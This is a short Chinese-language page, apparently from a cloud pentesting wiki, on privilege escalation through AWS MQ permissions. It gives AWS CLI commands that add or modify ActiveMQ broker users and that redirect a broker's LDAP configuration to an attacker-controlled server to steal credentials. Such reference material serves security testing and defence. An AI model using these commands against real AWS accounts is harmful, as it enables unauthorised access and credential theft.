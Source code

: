 # AWS - MQ Privesc

{{#include ../../../banners/hacktricks-training.md}}

## MQ

有关MQ的更多信息，请查看：

{{#ref}}
../aws-services/aws-mq-enum.md
{{#endref}}

### `mq:ListBrokers`, `mq:CreateUser`

拥有这些权限后，您可以**在ActiveMQ代理中创建新用户**（这在RabbitMQ中不起作用）：
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**潜在影响：** 通过 ActiveMQ 访问敏感信息

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

拥有这些权限后，您可以 **在 ActiveMQ 代理中创建新用户**（这在 RabbitMQ 中无效）：
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
**潜在影响：** 通过 ActiveMQ 访问敏感信息

### `mq:ListBrokers`, `mq:UpdateBroker`

如果一个代理使用 **LDAP** 进行授权与 **ActiveMQ**。攻击者可以 **更改** 用于 **的 LDAP 服务器的配置** 为 **一个由攻击者控制的**。这样攻击者将能够 **窃取所有通过 LDAP 发送的凭据**。
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
如果你能以某种方式找到 ActiveMQ 使用的原始凭据，你可以执行 MitM，窃取凭据，在原始服务器上使用它们，并发送响应（也许只是重用被窃取的凭据你就可以做到这一点）。

**潜在影响：** 窃取 ActiveMQ 凭据

{{#include ../../../banners/hacktricks-training.md}}
